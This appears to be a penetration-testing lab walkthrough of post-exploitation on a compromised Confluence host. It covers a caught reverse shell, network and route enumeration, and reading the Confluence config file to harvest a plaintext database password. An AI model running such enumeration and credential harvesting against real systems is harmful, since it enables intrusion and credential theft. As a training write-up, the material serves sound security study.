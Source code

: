 Bash reverse shell caught by our Netcat listener, and confirmed with the id command.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```

Enumerating network interfaces 

`ip addr`

```hlt:9,11,15,17
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever
```

Two network interfaces: `ens192` and `ens224`

Enumerating routes with `ip route`

```hlt:5,6
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.50.254 dev ens192 proto static 
10.4.50.0/24 dev ens224 proto kernel scope link src 10.4.50.63 
10.4.50.0/24 via 10.4.50.254 dev ens224 proto static
192.168.50.0/24 dev ens192 proto kernel scope link src 192.168.50.63
```

Access `192.168.50.0/24` via `ens192`
Access `10.4.50.0/24` via `ens224`

Enumerating Confluence config file and discover database credentials

```hlt:1,11,13,12
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml
<sian/application-data/confluence/confluence.cfg.xml   
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
  <properties>
...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
```